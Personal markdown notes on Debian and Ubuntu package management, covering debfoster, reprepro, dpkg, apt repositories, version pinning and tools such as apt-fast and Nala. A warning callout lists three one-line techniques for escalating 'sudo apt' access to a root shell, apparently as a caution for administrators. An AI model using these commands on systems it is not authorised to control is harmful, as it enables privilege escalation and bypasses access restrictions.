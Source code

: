 ```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```


## Repositories and Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

#### Debian Packages

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
## add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
## test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
## actually pull changes to target channel: replace checkpull by pull
```

#### dpkg

```bash
## extract package
dpkg -x [-X] <package> <destination>
## compare package versions
dpkg --compare-versions $version1 ne $version2
```

#### apt

Tags: #linux/apt

Add repository: add file in `/etc/apt/sources.list.d/` with

```
deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main
```

Install specific version

```bash
sudo apt install package_name=package_version
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
> ```

`apt-get clean`: empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
[apt-fast](https://github.com/ilikenwf/apt-fast): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package

Speed up downloads by using multiple parallel connections: (unofficial) [package `apt-fast`](https://github.com/ilikenwf/apt-fast)

##### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```

##### Nala

[Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


### References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>
